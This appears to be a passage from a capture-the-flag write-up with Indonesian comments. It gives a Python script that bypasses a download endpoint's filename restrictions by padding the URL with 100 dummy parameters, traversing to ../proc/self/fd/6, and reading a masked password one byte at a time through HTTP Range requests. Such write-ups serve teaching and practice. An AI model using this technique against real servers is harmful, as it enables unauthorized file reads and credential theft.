 and as we can see the password text are all asterisks, which means it contain /download filename restrictions. we can bypass this by only retrieve 1 byte at a time. My script:

```python
import requests

# 1. Siapkan Variabel Awal
# Ganti dengan URL lengkap Anda yang berisi >100 parameter
url_target = "http://103.160.212.3:13810/download?1=1&2=2&3=3&4=4&5=5&6=6&7=7&8=8&9=9&10=10&11=11&12=12&13=13&14=14&15=15&16=16&17=17&18=18&19=19&20=20&21=21&22=22&23=23&24=24&25=25&26=26&27=27&28=28&29=29&30=30&31=31&32=32&33=33&34=34&35=35&36=36&37=37&38=38&39=39&40=40&41=41&42=42&43=43&44=44&45=45&46=46&47=47&48=48&49=49&50=50&51=51&52=52&53=53&54=54&55=55&56=56&57=57&58=58&59=59&60=60&61=61&62=62&63=63&64=64&65=65&66=66&67=67&68=68&69=69&70=70&71=71&72=72&73=73&74=74&75=75&76=76&77=77&78=78&79=79&80=80&81=81&82=82&83=83&84=84&85=85&86=86&87=87&88=88&89=89&90=90&91=91&92=92&93=93&94=94&95=95&96=96&97=97&98=98&99=99&100=100&filename=../proc/self/fd/6"
password_lengkap = ""
total_bytes = 59

print("Memulai proses ekstraksi karakter...")

# 2. Buat Perulangan
for i in range(total_bytes):
    # 3. Di Dalam Loop

    # Buat header Range untuk byte ke-i
    range_header_value = f"bytes={i}-{i}"

    # Siapkan semua header yang diperlukan
    headers = {
        'Host': '103.160.212.3:13810',
        'User-Agent': 'My-Cool-Automation-Script/1.0',
        'Range': range_header_value
        # Anda bisa menambahkan header lain jika perlu
    }

    try:
        # Kirim permintaan
        response = requests.get(url_target, headers=headers, timeout=5)

        # Periksa apakah permintaan berhasil
        if response.status_code == 206:
            karakter = response.text
            print(f"Byte {i}: '{karakter}'")

            # Gabungkan hasil
            password_lengkap += karakter
        else:
            print(f"Gagal mengambil byte {i}: Status {response.status_code}")
            break # Hentikan jika ada error

    except requests.exceptions.RequestException as e:
        print(f"Terjadi error pada permintaan: {e}")
        break

# 4. Setelah Loop Selesai
print("\nProses selesai!")
print(f"Password yang berhasil diekstrak: {password_lengkap}")
```
